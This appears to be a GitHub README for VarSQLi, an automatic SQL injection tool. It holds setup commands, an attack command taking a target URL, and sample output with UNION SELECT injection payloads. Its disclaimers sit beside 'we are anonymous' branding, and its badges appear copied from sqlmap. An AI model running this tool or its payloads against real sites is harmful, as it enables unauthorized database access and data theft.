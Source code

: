 - [![.github/workflows/tests.yml](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml/badge.svg)](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml)
- [![Python|3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/)
- [![License](https://img.shields.io/badge/license-GPLv1-red.svg)](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE)
- [![Twitter](https://img.shields.io/badge/twitter-@Anonym0us_VNPC-blue.svg)](https://twitter.com/Anonym0us_VNPC)
# Variable-SQL-Injection
### Note From VarSQLi
> - _Github_ : @tucommenceapousser

sqliweb allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.
> warning: the tool will not have a dump database function, for the sake of protecting other people's private information, and absolutely not used for any other bad purpose, especially exploiting government and school sites  learn
### Screenshot
<img src="https://raw.githubusercontent.com/tucommenceapousser/varsqli/VarSQLi/data/Screenshot_2023-08-02-00-24-06-25.jpg">

However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

> Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

>> Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

### setup - install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
- `git clone https://github.com/tucommenceapousser/varsqli`
2. Navigate to the VarSQLi directory:
- `cd varsql`
3. Install the required dependencies by running the setup script:
- `python3 setup.py`
- `python3 main.py --help`
> Full Source Setup
```
git clone https://github.com/tucommenceapousser/varsqli/
cd varsqli
python3 setup.py
python3 main.py --help
```
> Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

### Demo Attack 
<img src="https://raw.githubusercontent.com/tucommenceapousser/varsqli/VarSQLi/.github/workflows/lv_0_20230803103153.gif">

#### How To Injection - Exploit 
- You can see that in the `--help` section, there is only one mode, `--url` and `--exploit` to update the url to attack and start Exploit
```
              ___
 _____         H  _____     _ _  {1.1.5}
|  |  |___ ___[,]|   __|___| |_|
|  |  | .'|  _[(]|__   | . | | | {trhacknon}
 \___/|__,|_| [)]|_____|_  |_|_|
               V         |_|  we are anonymous ! !


[+] Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.

usage: main.py [-h] [--url URL]

VarSQLi - Auto SQL Injection tools

options:
  -h, --help  show this help message and exit
  --url URL   URL Target (ex :            https://test.com/yourpath_vulnsqli.php?id=1)

  --exploit   start exploit
```
- To attack the target , you write the command :
-  `python3 main.py --url < url vulerable > --exploit`
- the result will be
```
[INFO] Testing connect to target url..
[INFO] Testing IF the target url content is stable
[INFO] Target is the content stable..
[INFO] Testing 'Generic atline queries'..
[INFO] Testing 'UNION SELECT NUMBER COUNT COLUMNS (MySQL Select).'
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2--+-'
[INFO] Total Response Content HTML stable : 200 OK
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2,3--+-'
```
<img src="https://raw.githubusercontent.com/tucommenceapousser/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-49-50-36.jpg">

<img src="https://raw.githubusercontent.com/tucommenceapousser/varsqli/VarSQLi/.github/workflows/Screenshot_2023-08-02-14-50-17-53.jpg">

- like last version, we don't have the feature to print database name and MySQL user, but i guarantee that the latest update version of too right now will have that feature 😃
> and here is the target database of tables and columns that VarSQLI has exploited
<img src="https://raw.githubusercontent.com/tucommenceapousser/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-50-35-49.jpg">
> so we've come to the end, so what's the ending?

# Ending 
A tip and note to use :
- Can you see how dangerous the SQL injection vulnerability is, here is a piece of advice for you, this tool is only for the nature, is to show the database name, and will never provide  dump database for users only, to ensure the security of network security
> Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
